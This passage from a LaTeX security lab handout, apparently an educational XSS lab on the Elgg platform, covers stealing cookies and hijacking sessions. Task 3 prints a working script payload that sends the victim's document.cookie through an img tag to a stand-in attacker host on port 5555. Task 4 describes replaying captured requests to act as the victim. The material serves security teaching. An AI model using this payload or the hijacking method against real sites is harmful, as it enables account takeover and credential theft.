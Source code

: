 \subsection{Task 3: Stealing Cookies from the Victim's Machine}

In the previous task, the malicious JavaScript code written by 
the attacker can print out the
user's cookies, but only the user can see the cookies, not the 
attacker.  In this task, the attacker wants the JavaScript code 
to send the cookies to himself/herself.
To achieve this, the malicious JavaScript code needs to 
send an HTTP request to the attacker, with the cookies appended to 
the request.

We can do this by having the malicious JavaScript insert an {\tt $<$img$>$} tag with
its {\tt src} attribute set to the attacker's machine.  When the JavaScript inserts
the {\tt img} tag, the browser tries to load the image from the URL in
the {\tt src} field; this results in an HTTP GET request sent to the attacker's
machine. The
JavaScript given below sends the cookies to the port 5555 of the
attacker's machine, where the attacker has a TCP server listening 
to the same port. The server can print out whatever it receives. 
The TCP server program is available from the lab's web site.

{\footnotesize
\begin{Verbatim}[frame=single] 
 <script>document.write('<img src=http://attacker_IP_address:5555?c=' 
                                  + escape(document.cookie) + '   >'); 
 </script> 
\end{Verbatim}
}


\subsection{Task 4: Session Hijacking using the Stolen Cookies}

After stealing the victim's cookies, the attacker can do whatever the victim
can do to the {\tt Elgg} web server, including adding and deleting friends
on behalf of the victim, deleting the victim's post, etc. Essentially, 
the attacker has hijacked the victim's session. 
In this task, we will launch this session hijacking attack, and
write a program to add a friend on behalf of the victim. 
The attack should be launched from another virtual machine.


To add a friend for the victim, we should first find out how a legitimate 
user adds a friend in {\tt Elgg}.
More specifically, we need to figure out what are sent to the server when a user 
adds a friend. Firefox's {\tt LiveHTTPHeaders} extension can help us; it 
can display the contents of any HTTP request message sent 
from the browser. From the contents, we can identify all
the parameters in the request. A screen shot of {\tt LiveHTTPHeaders} is given in
Figure~\ref{fig:livehttptext}. The {\tt LiveHTTPHeaders} 
is already installed in the pre-built \ubuntu VM image.



